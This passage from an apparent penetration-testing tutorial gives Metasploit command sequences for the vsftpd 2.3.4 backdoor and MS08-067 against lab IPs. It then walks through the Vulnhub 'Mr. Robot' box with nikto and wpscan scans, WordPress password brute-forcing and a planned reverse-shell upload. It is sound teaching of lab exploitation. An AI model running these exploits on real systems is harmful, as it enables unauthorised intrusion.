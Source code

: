     msf > use exploit/unix/ftp/vsftpd_234_backdoor
    msf exploit(vsftpd_234_backdoor) > set TARGET 0
    msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact
    msf exploit(vsftpd_234_backdoor) > set LHOST <ip>
    msf exploit(vsftpd_234_backdoor) > set LPORT 27526
    msf exploit(vsftpd_234_backdoor) > set RPORT 21
    msf exploit(vsftpd_234_backdoor) > set RHOST 10.0.1.19
    msf exploit(vsftpd_234_backdoor) > exploit -j

Similarly, we can look at a classic vulnerability in Windows XP / Server 2003: MS08_067 which is a wormable RCE vulnerability in SMB. This was the vulnerability that the Conficker worm used, and was later utilized by Stuxnet.  

In the same fashion, all we need to do is right click the box and select the attack: /exploit/windows/smb/ms08_067_netapi. msfconsole equivalent:  

    msf > use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > set TARGET 0
    msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
    msf exploit(ms08_067_netapi) > set LHOST <ip>
    msf exploit(ms08_067_netapi) > set LPORT 27675
    msf exploit(ms08_067_netapi) > set RPORT 445
    msf exploit(ms08_067_netapi) > set RHOST 10.0.1.21
    msf exploit(ms08_067_netapi) > set SMBPIPE BROWSER
    msf exploit(ms08_067_netapi) > exploit -j

### Bringing it all Together and Adding Complexity

Now we'll run through a scenario from [Vulnhub][vulnhub], an online community for posting vulnerable virtual machine "challenges" where you attempt to get root on a box designed to have specific vulnerabilities (Boot2Root). This one happens to be Mr. Robot themed, and the goal is to find 3 "flags" like we would if we were competing in a CTF competition.  

The ip address we'll focus is 10.0.1.18.  

We can use our earlier nmap results to see that the only thing running on the box is a web server on ports 80 and 443. Let's boot up nikto and see if there are any glaring vulnerabilities. Similar to earlier, we'll run.  

    ~# nikto -h http://10.0.1.18

The output verifies that this is a wordpress site, and that there is a robots.txt file, which is a file that good-mannered bots check to see where they shouldn't go. The first flag is located there, along with a .dic file that might come in handy later.  

Now we can run wpscan - a more specific wordpress vulnerability scanner. It doesn't look like there are any RCE vulnerabilties, but we can probably upload a reverse shell if we get the password for a user. We can use the login form to find valid users, like "elliot" and then brute force the password with WPScan. Sadly this will take 4-5 hours. So the password is ER28-0652. This is more representative of actual brute forcing.  

    ~# wpscan -u 10.0.1.18 -e vp
    
Now let's load the host up into Armitage and try and upload a reverse shell using /exploit/unix/webapp/wp_admin_shell_upload. Sadly it appears that there is an error when checking if wordpress exists, but I'm pretty sure this is a wordpress blog so let's check it out.


[codebreakers]: https://codebreaker.ltsnet.net/home
[csaw]: https://ctf.csaw.io/
[vulnhub]: https://www.vulnhub.com/
[writeup]: https://kaizensecurity.wordpress.com/2016/08/31/mr-robot-1-you-are-not-alone/